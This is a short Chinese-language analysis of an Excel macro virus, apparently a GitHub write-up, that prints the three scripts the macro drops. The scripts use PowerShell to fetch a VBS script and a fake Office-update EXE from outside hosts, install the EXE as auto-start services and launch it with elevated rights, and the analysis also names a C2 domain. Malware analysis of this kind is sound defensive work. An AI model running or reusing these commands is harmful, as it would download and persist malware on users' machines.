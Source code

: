 样本来源于卡饭,一款excel宏病毒<br>
使用微软offeicescan提取出宏代码。<br>

thisworkbook.vbs中创建了3个文件 C:\Users\Public\Af.vbs c:\Users\Public\Af.bat C:\Users\Public\Af2.bat<br>
做了混淆，使用vb调试器下文件写入地方下段可以看到3个文件中的内容，bat脚本中%%中内容为注释可以去掉<br>
<br>
af2.bat:<br>
```powershell
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('https://zeroratchet。000webhostapp.com/vbs.vbs','C:\Users\Public\vbs.vbs');
C:\Users\Public\vbs.vbs
```
af2.bat 从zeroratchet.000webhostapp下载vbs.vbs脚本<br>
vbs.vbs调用powershell修改注册表，与c&c域名microsoft-downloads[.]duckdns[.]org:666/admin/get.php通信，并下载证书安装<br>
<br>
af.bat:<br>
```powershell
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('https://zeroratchet。000webhostapp.com/OfficeUpdate.jpg','C:\Users\Public\OfficeUpdate.exe');
timeout 5
xcopy /b/v/y C:\Users\Public\OfficeUpdate.exe C:\Windows\system32\
SC.exe Create "Microsoft_Officex" binpath= "C:\Windows\system32\OfficeUpdate.exe" type= "interact" type= "own" start= "auto" displayname= "Microsoft_Officex"
SC.exe Create "Microsoft_Office" binpath= "C:\Windows\SysWOW64\OfficeUpdate.exe" type= "interact" type= "own" start= "auto" displayname= "Microsoft_Office"
C:\Users\Public\vbs.vbs
exit
```
af.bat从zeroratchet.000webhostapp下载一个jpg文件，其实是个exe文件。将OfficeUpdate.exe拷贝到system32目录下，然后用sc注册系统服务启动<br>
<br>
af.vbs:<br>
```powershell
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run chr(34) & Chr(67) & ":\Users\Public\Af2.bat" & Chr(34), 0
Set WshShell = Nothing
WScript.Sleep(5000)
Set objShell = CreateObject("Shell.Application")
objShell.ShellExecute Chr(99) & Chr(109) & Chr(100) & Chr(46) & chr(101) & chr(120) & chr(101) & "", "/c C:\Users\Public\Af.bat", "", "runas", 0
Set x = CreateObject("wscript.shell")
```
af.vbs调用cmd执行af.bat<br>
